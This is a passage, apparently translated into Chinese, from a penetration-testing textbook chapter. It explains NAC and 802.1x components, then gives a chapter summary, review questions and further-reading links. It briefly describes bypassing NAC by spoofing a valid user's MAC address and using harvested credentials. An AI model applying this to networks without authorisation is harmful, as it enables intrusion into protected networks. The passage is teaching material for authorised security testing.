一旦设备连接，NAC 服务器就能够对设备进行配置文件和检查，以确定连接的设备是否符合合规标准，然后允许访问网络资源、安全策略和控制，这些都是配置的，以确保有一定形式的限制，防止不符合规定的设备获取网络访问权限。

IEEE 802.1x 是 LAN（有线）和 WLAN（无线）网络的 NAC 标准。在 802.1x 网络中，有三个主要组件：

+   **认证服务器**: 认证服务器是处理网络上的**认证、授权和计费**（**AAA**）服务的设备。这是创建和存储用户帐户以及应用特权和策略的地方。认证服务器运行**远程认证拨号用户服务**（**RADIUS**）或**终端访问控制器访问控制系统加**（**TACACS+**）作为其协议。

+   **认证器**: 这通常是您尝试访问的网络设备，无论是出于管理目的还是仅仅是访问网络。这些设备可以是无线路由器/接入点或网络交换机。

+   **Supplicant**: Supplicant 是客户端设备，如智能手机或笔记本电脑，希望访问网络。Supplicant 连接到网络（有线或无线），并收到认证登录窗口，由认证器提供。当用户提交其用户凭据时，认证器会查询认证服务器，以验证用户并确定用户登录到网络时应用的策略和权限。

绕过 NAC 系统可能有些挑战。在本章和上一章的课程中，我们看了如何收集用户凭据并欺骗我们的攻击者机器（Kali Linux）的身份。使用目标网络上有效用户的 MAC 地址和用户凭据将为您提供对安全网络的某种访问权限。

但是，NAC 服务器能够对所有连接设备上的操作系统和反恶意软件保护进行配置文件化。如果您的系统不符合合规要求，这可能会触发红旗，或者根据策略不允许访问。

# 总结

在本章中，我们能够涵盖了许多实用内容，例如破解 WEP 和 WPA 无线加密标准以恢复密钥（密码）。在利用无线安全性之后，我们讨论并演示了最佳实践，以便我们可以保护无线网络免受潜在黑客的攻击。

此外，还介绍了对微软的 RDP 和 Citrix 服务进行渗透测试的实际方法。最后，我们讨论了各种网络植入物的用途，以及它们如何可以保持对企业网络的远程访问。

您现在具备了访问无线网络、对目标系统进行利用以及访问 Linux 和 Windows 操作系统的技能。

在第十一章中，*网络渗透测试-连接后攻击*，我们将探讨连接后阶段的各种工具。

# 问题

1.  WPA2 使用什么算法进行数据加密？

1.  用于发现运行 Citrix 应用程序的服务器的 Nmap 脚本是什么？

1.  微软的 RDP 使用的默认端口是什么？

1.  Kali Linux 中有哪些密码破解工具？

1.  通常用于存储所有用户帐户和策略的设备是什么？

1.  在 Metasploit 中，可以使用哪个命令来查找模块？

1.  NAC 的标准是什么？

# 进一步阅读

以下是一些推荐阅读资源：

+   **Metasploit Unleashed**: [`www.offensive-security.com/metasploit-unleashed/`](https://www.offensive-security.com/metasploit-unleashed/)

+   **其他安全工具**: [`sectools.org/`](https://sectools.org/)
